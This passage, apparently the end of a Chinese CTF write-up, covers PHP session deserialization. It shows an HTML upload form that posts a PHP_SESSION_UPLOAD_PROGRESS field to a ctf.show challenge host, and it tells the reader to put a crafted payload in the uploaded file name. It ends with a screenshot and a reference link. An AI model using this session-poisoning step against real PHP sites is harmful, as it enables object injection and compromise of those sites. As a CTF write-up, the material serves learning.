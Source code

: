 ```html
<!doctype html>
<html>
<body>
<form action="http://793869b1-2080-446e-9066-25f43d926b25.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
 <input type="file" name="file" />
    <input type="submit" />
</form>
</body>
</html>
```

修改文件名为刚才我们构造的那个结果

![image-20250121142425130](https://gitee.com/bx33661/image/raw/master/path/image-20250121142425130.png)

得到结果



## 参考文章：

- [带你走进PHP session反序列化漏洞 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6640?time__1311=n4%2BxnD0Dg7%3DYqBK0QD%2FiWRe8mDCDcGBBilhoD#toc-5)